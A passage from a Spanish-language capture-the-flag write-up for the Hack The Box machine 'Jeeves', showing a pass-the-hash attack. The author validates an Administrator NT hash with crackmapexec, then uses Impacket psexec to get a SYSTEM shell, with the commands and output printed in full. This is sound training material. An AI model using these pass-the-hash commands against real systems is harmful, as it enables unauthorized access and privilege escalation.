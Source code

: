 - Y bueno eso es un `hash` que podemos usar para aplicar `passthehash`.

- Vamos a validarlo con `crackmapexec` si es el del usuario **Administrator**.

```bash
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H ':e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator::e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

## Shell as Administrator

- Pues bueno podemos conectarnos con el `hash nt`.

```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file LBvnmiYK.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service QTka on 10.10.10.63.....
[*] Starting service QTka.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

## Root.txt

- Nos dicen que la flag está en otro lado.

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,407,817,216 bytes free

C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
C:\Users\Administrator\Desktop>
```
